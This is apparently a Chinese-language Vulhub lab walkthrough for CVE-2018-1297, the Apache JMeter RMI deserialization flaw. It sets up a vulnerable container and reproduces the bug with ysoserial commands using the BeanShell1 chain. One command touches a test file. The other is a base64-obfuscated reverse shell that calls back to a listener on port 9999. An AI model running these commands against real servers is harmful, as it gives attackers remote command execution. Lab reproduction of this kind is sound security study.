



# Jmeter RMI 反序列化命令执行漏洞 CVE-2018-1297

## 漏洞描述

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

运行完成后，将启动一个RMI服务并监听1099端口。

## 漏洞复现

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```



我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：



反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit 192.168.174.128 1099 BeanShell1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

监听9999端口，成功接收反弹shell：



